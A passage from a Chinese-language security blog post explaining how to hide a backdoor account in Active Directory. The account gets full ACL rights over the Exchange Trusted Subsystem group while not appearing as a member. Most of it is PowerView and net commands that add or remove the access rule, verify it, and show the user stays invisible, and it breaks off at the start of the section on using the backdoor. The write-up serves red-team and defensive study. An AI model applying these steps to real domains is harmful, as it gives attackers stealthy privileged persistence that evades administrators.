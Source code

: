 **补充：**

移除后门用户testb对`Exchange Trusted Subsystem`的完全访问权限：

```
$RawObject = Get-DomainObject -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" -Raw
$TargetObject = $RawObject.GetDirectoryEntry()
$ACE = New-ADObjectAccessControlEntry -InheritanceType All -AccessControlType Allow -PrincipalIdentity testb -Right AccessSystemSecurity,CreateChild,Delete,DeleteChild,DeleteTree,ExtendedRight,GenericAll,GenericExecute,GenericRead,GenericWrite,ListChildren,ListObject,ReadControl,ReadProperty,Self,Synchronize,WriteDacl,WriteOwner,WriteProperty
$TargetObject.PsBase.ObjectSecurity.RemoveAccessRule($ACE)
$TargetObject.PsBase.CommitChanges()
```

#### 5.查看用户testb的sid

```
Get-DomainUser testb
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/4-1.png)

用户testb的objectsid为`S-1-5-21-1672228480-1396590849-334771951-2105`

#### 6.查看属于新添加用户testb的ACE

```
Get-DomainObjectAcl -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" | Where-Object {$_.SecurityIdentifier -eq "S-1-5-21-1672228480-1396590849-334771951-2105"}
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/4-2.png)

至此，后门安装成功

此时查看`Exchange Trusted Subsystem`组的用户：

```
net group "Exchange Trusted Subsystem" /domain
```

无法发现后门用户testb

### 后门启动方法

#### 1.在另一台域内主机上登录用户testb

cmd：

```
runas /user:test\testb cmd
```
